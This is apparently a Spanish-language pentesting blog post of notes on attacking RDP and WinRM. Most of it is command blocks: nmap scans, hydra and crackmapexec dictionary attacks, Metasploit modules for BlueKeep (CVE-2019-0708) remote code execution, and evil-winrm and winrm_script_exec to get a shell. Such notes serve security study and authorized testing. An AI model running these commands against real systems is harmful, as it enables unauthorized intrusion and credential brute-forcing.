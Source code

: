 ```yaml
---
title: 'Protocolos RDP y WinRM'
description: 'Notas sobre cómo explotarlos'
pubDate: 2024-01-25
author: 'Nicolas Riquelme'
tags: ["Hacking", "Windows", "RDP", "WinRM"]
tableOfContents:
  minHeadingLevel: 2
  maxHeadingLevel: 3
---
```

# Remote Desktop Protocol (RDP)
RDP es un protocolo de escritorio remoto que permite a los usuarios conectarse a un sistema remoto y controlarlo como si estuvieran sentados frente a él. Por defecto usa el puerto TCP 3389, pero es posible (y altamente recomendable) cambiarlo por otro. Este protocolo requiere autenticación mediante credenciales, pero puede ser vulnerado usando ataques de fuerza bruta.

## Enumeración
```ruby
nmap -sV -p- {ip víctima}

use auxiliary/scanner/rdp/rdp_scanner
	set rhosts {ip victima}
	set rport {puerto}			# en caso de que no use el puerto por defecto
	run 						# o exploit
```

## Ataque de diccionario
```ruby
hydra -L {ruta a diccionario} -P {ruta a diccionario} rdp://{ip victima} # si no usa el puerto por defecto, hay que añadir el parámetro "-s {puerto}"

xfreerdp /u:{usuario} /p:{password} /v:{ip víctima}:{puerto}
```

## Explotando BlueKeep (CVE-2019-0708)
```ruby
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
	set rhosts {ip victima}
	set rport {puerto}			# en caso de que no use el puerto por defecto
	run

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	set rhosts {ip victima}
	set rport {puerto}			# en caso de que no use el puerto por defecto
	exploit
```
# Windows Remote Management (WinRM)
WinRM es un protocolo de administración remota que permite controlar y administrar sistemas Windows remotos. WinRM está basado en el protocolo WS-Management, que es un protocolo estándar abierto que permite la interoperabilidad entre sistemas de diferentes proveedores. Suele usar los puertos TCP 5985 (HTTP) y 5986 (HTTPS).

## Enumeración
```ruby
nmap -sV -p5985-5986 {ip víctima}
```

## Ataque de diccionario
```ruby
crackmapexec winrm {ip víctima} -u {usuario o diccionario} -p {password o diccionario} -x {comando} 		# a tener en cuenta que esta herramienta ha sido descontinuada y ahora se usa su reemplazo Netexec, que usa la misma sintaxis, excepto por el ejecutable, que se invoca con "nxc"
```

## Obtención de Shell
```ruby
evil-winrm.rb -u {usuario} -p '{password}' -i {ip víctima}

use exploit/windows/winrm/winrm_script_exec
	set rhosts {ip victima}
	set rport {puerto}			# en caso de que no use el puerto por defecto
	set force_vbs true
	set username {usuario}
	set password {password}
	exploit
	
```
